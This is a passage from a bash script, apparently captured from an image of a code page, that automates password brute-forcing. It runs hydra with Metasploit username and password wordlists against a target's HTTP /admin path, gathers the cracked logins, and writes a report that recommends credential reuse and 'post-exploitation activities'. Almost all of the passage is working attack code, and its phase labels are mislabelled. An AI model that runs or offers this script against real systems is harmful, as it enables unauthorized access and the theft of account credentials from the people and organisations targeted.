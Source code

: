 ```bash
    echo "[+] Testing HTTP service" | tee -a $LOGFILE
    hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt $TARGET http-get /admin -o $OUTPUT_DIR/http_results.txt
fi

# Phase 4: Results consolidation
echo "[+] Phase 3: Results Analysis" | tee -a $LOGFILE
echo "[+] Consolidating discovered credentials" | tee -a $LOGFILE

# Extract all successful logins
grep -h "login:" $OUTPUT_DIR/*_results.txt > $OUTPUT_DIR/all_credentials.txt 2>/dev/null

if [ -s $OUTPUT_DIR/all_credentials.txt ]; then
    echo "[+] Successful credentials discovered:" | tee -a $LOGFILE
    cat $OUTPUT_DIR/all_credentials.txt | tee -a $LOGFILE
    
    # Create summary report
    echo "[+] Creating summary report" | tee -a $LOGFILE
    cat > $OUTPUT_DIR/summary_report.md << EOF
# Credential Discovery Report for $TARGET

## Date: $(date)

## Services Tested:
$(cat $OUTPUT_DIR/nmap_scan.txt | grep -E "PORT|ftp|ssh|http|rdp|ms-wbt-server")

## Discovered Credentials:
$(cat $OUTPUT_DIR/all_credentials.txt)

## Files Generated:
- nmap_scan.txt: Service discovery results
- *_results.txt: Hydra attack results for each service
- all_credentials.txt: Consolidated successful logins
- attack_log.txt: Complete attack timeline

## Next Steps:
1. Verify each credential with appropriate client
2. Document system access and privileges
3. Test credential reuse across services
4. Proceed with post-exploitation activities
EOF

else
    echo "[!] No credentials discovered" | tee -a $LOGFILE
fi

echo "[+] Attack completed. Check $OUTPUT_DIR for detailed results" | tee -a $LOGFILE
```

---

